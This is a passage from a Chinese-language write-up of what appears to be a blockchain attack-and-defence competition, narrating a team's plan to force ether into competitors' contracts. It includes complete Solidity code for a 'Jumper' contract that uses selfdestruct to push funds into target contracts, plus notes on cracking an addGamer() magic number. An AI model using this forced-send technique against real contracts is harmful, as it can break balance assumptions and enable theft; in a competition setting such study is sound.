 > 是用 MEW 调用的问题，用 web3 调用即可。

##### 3. 跳板合约和傀儡合约

到了晚上 12 点左右，对着黄皮书看 opcode，眼睛都要瞎了，WYF 提出了一个疯狂的想法：

随便构造一个合约，用非报名帐号给这个合约充钱，然后销毁这个合约（跳板合约），把钱转给竞赛的合约（傀儡合约，其它组的和我们自组的），然后销毁傀儡合约。

立刻简单测试，可行：

```
contract Jumper {
    address vault;
    address owner;

    function Jumper() payable {
        owner = msg.sender;
    }

    function setVault(address v) {
        require(msg.sender == owner);
        vault = v;
    }

    function addFund() payable returns(uint) {
        return this.balance;
    }

    function kill() {
        require(msg.sender == owner);
        selfdestruct(vault);
    }
}
```

> 这个代码是 XCY 同学写的，我写的版本非常简陋。他这个版本很好：

> 1. 因为局势随时变化，很可能给这个跳板合约充了钱，要 kill 的时候，发现傀儡合约不能销毁了，`setVault()` 保证了灵活性。

> 2. 这次功防，很大一部分是 owner 造成的。这个合约 owner 处理得很好。

因为明早 4 点多要起来赶航班，大家同步完，做了分工：

* XCY 在美西，他请假一天，继续破解 `addGamer()`
* 大家都屯币
* 我去睡觉，防止猝死

##### 4. 快速致富

早上起来，车车同学（XCY）传来好消息：

1. addGamer 的 magic number 就是 1。
2. 他屯了 500  个币了。

时间是北京时间 6 点多，其它同学都还没醒，没同步沟通。

不过这个时候我和 XCY 同学交流，更倾向于用跳板合约攻击了。
